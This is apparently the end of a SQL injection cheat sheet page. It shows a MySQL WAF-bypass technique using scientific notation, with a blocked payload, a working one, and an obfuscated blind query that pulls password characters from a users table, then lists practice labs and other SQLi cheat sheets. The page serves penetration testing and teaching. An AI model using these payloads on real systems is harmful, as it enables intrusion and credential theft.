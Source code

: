 #### WAF bypass for MySQL using scientific notation

Blocked
```sql
' or ''='
```
Working
```sql
' or 1.e('')='
```
Obfuscated query
```sql
1.e(ascii 1.e(substring(1.e(select password from users limit 1 1.e,1 1.e) 1.e,1 1.e,1 1.e)1.e)1.e) = 70 or'1'='2
```

## Labs 

* [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)
* [SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
* [SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)
* [SQL Labs](https://portswigger.net/web-security/all-labs#sql-injection)

## References

* Detect SQLi
  * [Manual SQL Injection Discovery Tips](https://gerbenjavado.com/manual-sql-injection-discovery-tips/)
  * [NetSPI SQL Injection Wiki](https://sqlwiki.netspi.com/)
* MySQL:
  * [PentestMonkey's mySQL injection cheat sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
  * [Reiners mySQL injection Filter Evasion Cheatsheet](https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/)
  * [Alternative for Information_Schema.Tables in MySQL](https://osandamalith.com/2017/02/03/alternative-for-information_schema-tables-in-mysql/)
  * [The SQL Injection Knowledge base](https://websec.ca/kb/sql_injection)
* MSSQL:
  * [EvilSQL's Error/Union/Blind MSSQL Cheatsheet](http://evilsql.com/main/page2.php)
  * [PentestMonkey's MSSQL SQLi injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* ORACLE:
  * [PentestMonkey's Oracle SQLi Cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)
* POSTGRESQL:
  * [PentestMonkey's Postgres SQLi Cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
* Others
  * [SQLi Cheatsheet - NetSparker](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
  * [Access SQLi Cheatsheet](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)
  * [PentestMonkey's Ingres SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/ingres-sql-injection-cheat-sheet)
  * [Pentestmonkey's DB2 SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet)
  * [Pentestmonkey's Informix SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/informix-sql-injection-cheat-sheet)
  * [SQLite3 Injection Cheat sheet](https://sites.google.com/site/0x7674/home/sqlite3injectioncheatsheet)
  * [Ruby on Rails (Active Record) SQL Injection Guide](http://rails-sqli.org/)